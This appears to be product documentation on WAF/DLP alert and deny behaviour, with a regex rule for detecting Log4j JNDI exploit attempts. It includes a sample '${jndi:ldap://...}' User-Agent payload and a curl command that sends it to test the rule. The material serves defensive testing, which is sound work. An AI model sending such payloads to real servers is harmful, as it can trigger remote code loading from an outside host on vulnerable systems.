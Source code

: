 #### DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

+ Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

#### Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

```shell
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
```

Also note that there are ways that attackers could bypass detection by such rules.

#### Testing the Log4j WAF Detection
In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

```shell
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
```

Using curl to POST data to server(container) can help to test WAF rule:

```shell
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
```

#### WAF Setup and Testing	

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

[Download WAF test script](waf_test.zip)

#### Sample Alerts

DLP match in Discover or Monitor Mode

![DLPAlert](dlp4_alert_discover.png)
